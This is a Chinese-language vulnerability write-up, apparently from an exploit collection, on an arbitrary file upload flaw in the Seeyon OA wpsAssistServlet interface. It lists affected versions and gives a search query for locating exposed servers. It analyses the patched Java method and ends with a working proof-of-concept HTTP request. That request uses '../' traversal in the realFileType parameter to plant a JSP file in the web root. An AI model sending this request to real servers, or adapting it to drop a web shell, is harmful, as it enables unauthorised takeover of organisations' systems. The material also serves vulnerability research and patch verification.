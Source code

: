 # 致远OA wpsAssistServlet 任意文件上传漏洞

## 漏洞描述

致远OA wpsAssistServlet接口存在任意文件上传漏洞，攻击者通过漏洞可以发送特定的请求包上传恶意文件，获取服务器权限

## 漏洞影响

```
致远OA A6、A8、A8N (V8.0SP2，V8.1，V8.1SP1)
致远OA G6、G6N (V8.1、V8.1SP1)
```

## 网络测绘

```
app="致远互联-OA" && title="V8.0SP2"
```

## 漏洞复现

产品主页

![image-20220824142723820](./images/202208241427877.png)

下载补丁220706-S004 ，对比修改的文件

![image-20220824142736294](./images/202208241427361.png)

主要修改的是 `com.seeyon.ctp.common.wpsassist.manager.WpsAssistManagerImpl.oaSaveFile` 这个方法

```
private Map<String, Object> oaSaveFile(HttpServletRequest request, Map<String, Object> param) throws Exception {
        Map<String, Object> result = Maps.newHashMap();
        result.put(BusinessKey.OfficeTransResultFlag.getCode(), (Object)null);
        Long fileId = MapUtils.getLong(param, "fileId");
        log.info("wpsAssist SaveFile start!fileId=" + fileId);
        String newPdfFileId = MapUtils.getString(param, "newPdfFileId");
        if (Strings.isNotBlank(newPdfFileId)) {
            fileId = Long.valueOf(newPdfFileId);
        }

        String realFileType = MapUtils.getString(param, "realFileType");
        String tempFileIdPathSuffix = SystemEnvironment.getSystemTempFolder() + File.separator + fileId + realFileType;
        Long count = this.saveFileToPath(request, tempFileIdPathSuffix);
        result.put(BusinessKey.FileSize.getCode(), count);
        result.putAll(this.createOfficeTransCacheFile(fileId, tempFileIdPathSuffix, MapUtils.getString(param, "canTransFileType")));
        param.put(BusinessKey.OfficeTransResultFlag.getCode(), result.get(BusinessKey.OfficeTransResultFlag.getCode()));
        this.copyToUploadAndTrans(param);
        return result;
    }
```

向上追溯调用的 oaSaveFile方法的代码

![image-20220824142757449](./images/202208241427516.png)

![image-20220824142808032](./images/202208241428101.png)

在 `com.seeyon.ctp.common.wpsassist.WpsAssistServlet.doPost` 中，flag参数为save时，可以调用文件上传接口

![image-20220824142821539](./images/202208241428602.png)

`C://Seeyon/A6/base/temporary` 为默认上传的位置，但 `realFileType, fileId` 参数可控，可以通过 ../ 遍历上传到任意目录下，验证POC

```
POST /seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/debugggg.jsp&fileId=2 HTTP/1.1
Host: 
Content-Length: 349
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="upload"; filename="123.xls"
Content-Type: application/vnd.ms-excel

<% out.println("seeyon_vuln");%>
--59229605f98b8cf290a7b8908b34616b--
```

![image-20220824142837723](./images/202208241428763.png)

![image-20220824142846959](./images/202208241428999.png)



